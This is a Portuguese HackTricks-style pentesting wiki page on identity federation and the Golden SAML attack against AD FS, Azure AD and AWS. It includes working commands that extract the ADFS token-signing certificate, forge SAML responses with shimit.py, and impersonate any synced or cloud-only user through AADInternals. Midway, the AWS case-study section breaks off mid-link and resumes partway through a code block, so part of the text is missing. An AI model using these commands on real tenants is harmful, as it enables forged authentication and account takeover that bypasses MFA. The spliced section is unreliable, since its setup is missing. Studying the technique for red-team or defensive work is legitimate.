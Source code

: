 # Federação

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) **e** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repositórios do github.**

</details>

## Informações básicas

**Federação** é um conjunto de **domínios** que estabeleceram **confiança**. O nível de confiança pode variar, mas geralmente inclui **autenticação** e quase sempre inclui **autorização**. Uma federação típica pode incluir um **número de organizações** que estabeleceram **confiança** para **acesso compartilhado** a um conjunto de recursos.

Você pode **federar seu ambiente local** com o Azure AD e usar essa federação para autenticação e autorização. Esse método de login garante que toda a **autenticação do usuário ocorra localmente**. Esse método permite que os administradores implementem níveis mais rigorosos de controle de acesso. A federação com **AD FS** e PingFederate está disponível.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

Basicamente, na Federação, toda a **autenticação** ocorre no ambiente **local** e o usuário experimenta SSO em todos os ambientes confiáveis. Portanto, os usuários podem **acessar aplicativos em nuvem** usando suas **credenciais locais**.

O **Security Assertion Markup Language (SAML)** é usado para **trocar** todas as informações de autenticação e autorização entre os provedores.

Em qualquer configuração de federação, existem três partes:

* Usuário ou Cliente
* Provedor de Identidade (IdP):
* Provedor de Serviços (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Primeiro, o usuário **tenta acessar um aplicativo** (também conhecido como SP, ou Provedor de Serviços), que pode ser um console AWS, cliente da web vSphere, etc. Dependendo da implementação, o cliente pode ir diretamente para o IdP primeiro e pular a primeira etapa neste diagrama.
2. O aplicativo então **detecta o IdP** (ou Provedor de Identidade, que pode ser AD FS, Okta, etc.) para autenticar o usuário, **gera uma solicitação de autenticação SAML** e redireciona o cliente para o IdP.
3. O **IdP autentica o usuário**, **cria uma resposta SAML** e a envia para o SP via o usuário.
4. O SP **verifica a resposta SAML** e **registra o usuário**. O SP deve ter um relacionamento de confiança com o IdP. O usuário agora pode usar o serviço.

**Se você quiser aprender mais sobre autenticação SAML e ataques comuns, vá para:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* O AD FS é um modelo de identidade baseado em declarações.
* "..declarações são simplesmente afirmações (por exemplo, nome, identidade, grupo), feitas sobre usuários, que são usadas principalmente para autorizar o acesso a aplicativos baseados em declarações localizados em qualquer lugar na Internet."
* As declarações para um usuário são escritas dentro dos tokens SAML e são então assinadas para fornecer confidencialidade pelo IdP.
* Um usuário é identificado por ImmutableID. É globalmente único e armazenado no Azure AD.
* O ImmutableID é armazenado no local como ms-DS-ConsistencyGuid para o usuário e/ou pode ser derivado do GUID do usuário.
* Mais informações em [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Ataque Golden SAML:**

* No ADFS, a resposta SAML é assinada por um certificado de assinatura de token.
* Se o certificado for comprometido, é possível autenticar no Azure AD como QUALQUER usuário sincronizado com o Azure AD!
* Assim como nosso abuso de PTA, a alteração de senha para um usuário ou MFA não terá nenhum efeito porque estamos forjando a resposta de autenticação.
* O certificado pode ser extraído do servidor AD FS com privilégios DA e pode ser usado em qualquer máquina conectada à Internet.
* Mais informações em [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Do esquema anterior, a parte mais interessante é a terceira, em que o **IdP** gera uma **Resposta SAML** autorizando o usuário a fazer login. Dependendo da implementação específica do IdP, a **resposta** pode ser **assinada** ou **criptografada** pela **chave privada do IdP**. Dessa forma, o **SP pode verificar** que a SAMLResponse foi realmente criada pelo IdP confiável.

Semelhante a um [ataque de ticket dourado](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), com a **chave** que **assina** o objeto que contém a **identidade do usuário** e **permissões** (_KRBTGT_ para ticket dourado e chave privada de assinatura de token para SAML dourado), podemos então **forjar tal "objeto de autenticação"** (TGT ou SAMLResponse) e **se passar por qualquer usuário** para obter acesso não autorizado ao SP.

Além disso, os SAMLs dourados têm as seguintes vantagens:

* Eles podem ser **gerados** de praticamente **qualquer lugar**. Você não precisa fazer parte de um domínio, federação ou qualquer outro ambiente com o qual esteja lidando
* Eles são eficazes mesmo quando **2FA** está habilitado
* A **chave privada** de assinatura de token **não é renovada** automaticamente
* **Alterar** a **senha** de um usuário **não afetará** o SAML gerado

#### AWS + AD FS + Golden SAML = ♥ (estudo de caso)

[Active Directory Federation Services](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897
# pk - Caminho completo do arquivo de chave privada (formato pem)
# c - Caminho completo do arquivo de certificado (formato pem)
# u - Nome de usuário e domínio, por exemplo, domínio\usuário (use \ ou aspas em *nix)
# n - Nome da sessão na AWS
# r - Funções desejadas na AWS. Suporta várias funções, a primeira especificada será assumida.
# id - ID da conta da AWS, por exemplo, 123456789012

# Salvar SAMLResponse em um arquivo
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# Com um usuário de domínio, você pode obter o ImmutableID do usuário de destino
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# No servidor AD FS, execute como administrador
Get-AdfsProperties | select identifier

# Ao configurar o AD FS usando o Azure AD Connect, há uma diferença entre IssueURI no servidor ADFS e no Azure AD.
# Você precisa usar o do AzureAD.
# Portanto, verifique o IssuerURI do Azure AD também (Use o módulo MSOL e precisa de privilégios GA)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extrair o certificado de assinatura de token ADFS do servidor ADFS usando o AADInternals
Export-AADIntADFSSigningCertificate

# Impersonar um usuário para acessar aplicativos em nuvem
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

Também é possível criar o ImmutableID de usuários apenas em nuvem e se passar por eles

```powershell
# Crie um ImmutableID realista e defina-o para um usuário apenas em nuvem
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extrair o certificado de assinatura de token ADFS do servidor ADFS usando o AADInternals
Export-AADIntADFSSigningCertificate

# Impersonar o usuário
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>